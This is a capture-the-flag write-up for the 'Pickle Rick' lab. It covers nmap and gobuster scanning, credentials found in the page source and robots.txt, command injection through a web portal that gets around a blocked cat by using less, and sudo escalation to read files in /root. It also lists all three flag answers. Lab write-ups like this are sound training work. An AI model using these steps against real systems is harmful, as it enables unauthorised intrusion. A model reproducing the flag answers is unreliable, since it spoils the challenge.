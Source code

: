 # Pickle Rick

> A Rick and Morty CTF. Help turn Rick back into a human!

## Scanning

Scan the target with nmap

```
nmap -A -T4 10.10.197.149
```

![image](https://user-images.githubusercontent.com/90561566/198048801-c6fab2ef-a96b-4a83-b5d4-3c07ff43ae30.png)

I found 2 port open are SSH (22) and HTTP (80)

## HTTP

Go to the webpage

![image](https://user-images.githubusercontent.com/90561566/198049923-948dc644-54cf-469b-9ea6-b6baf279fb4c.png)

It's an username `R1ckRul3s`

![image](https://user-images.githubusercontent.com/90561566/198051564-2b2260db-9d45-47cb-b434-f5827de6e595.png)

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.197.149/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php
```

![image](https://user-images.githubusercontent.com/90561566/198052681-c707007f-f40b-4733-82e5-673bdd46ecef.png)

I see a robots.txt seen meaningless `Wubbalubbadubdub`

![image](https://user-images.githubusercontent.com/90561566/198052867-3a41c8d9-179f-48b0-833c-cd1fe52044c5.png)

Let see login.php page

![image](https://user-images.githubusercontent.com/90561566/198053586-cd22ad1b-80c0-4dcb-aec9-94ae7de50310.png)

Try login with R1ckRul3s/Wubbalubbadubdub, wow login successful

## Exploitation

I see here is only a command injection page and other navbars are denied

![image](https://user-images.githubusercontent.com/90561566/198055489-af19a7e4-69ba-414d-b7de-aab61c409193.png)

```
ls -l
```

![image](https://user-images.githubusercontent.com/90561566/198057111-103948f9-2441-4190-9e93-16461221130f.png)

`cat` command is disabled

![image](https://user-images.githubusercontent.com/90561566/198056671-c38d9619-92b9-4277-885f-5a46b9b3db6c.png)

but it can use `less`

![image](https://user-images.githubusercontent.com/90561566/198057362-2bea79cd-9113-403c-844f-ff255d02931f.png)

| Flag | first ingredient |
| --- | --- |
| Answer | mr. meeseek hair |

moreover, i can use this

```
less portal.php
Ctrl+U
```

there are list of disabled commands

![image](https://user-images.githubusercontent.com/90561566/198058048-ff95c816-fc36-4d3d-adbd-213469894d24.png)

a suggestion

![image](https://user-images.githubusercontent.com/90561566/198058623-df2788b9-430a-4e0e-a6f9-c9b78e621ca8.png)

i look for rick home folder

![image](https://user-images.githubusercontent.com/90561566/198059271-4c7e824b-1d73-43b7-91b4-00d5aeb9eca9.png)

hmm 2nd ingredient, but it's root privilege

![image](https://user-images.githubusercontent.com/90561566/198059455-3899bd11-533f-4e50-a002-c40c4b6d9479.png)

## Privilege Escalation

```
sudo -l -l
```

wow, a lot of faults on this machine haha, it can run sudoer with everything

![image](https://user-images.githubusercontent.com/90561566/198061010-16cabb2d-2259-497a-b692-63e4d4820cb6.png)

```
sudo less "/home/rick/second ingredients"
```

okay here is second ingredient

![image](https://user-images.githubusercontent.com/90561566/198061499-dc9c622f-6562-46e0-8157-a56e88da984c.png)

| Flag | second ingredient |
| --- | --- |
| Answer | 1 jerry tear |

the last, i guest it will be somewhere in /root

```
sudo ls -l /root
```

remember sudo keyword

![image](https://user-images.githubusercontent.com/90561566/198062243-2ec642fc-5a95-4465-ab3e-63f2bccb2fe3.png)

```
sudo less /root/3rd.txt
```

![image](https://user-images.githubusercontent.com/90561566/198062459-709cbec5-a14a-4460-bba7-b89a67cb9d82.png)

| Flag | third ingredient |
| --- | --- |
| Answer | fleeb juice |

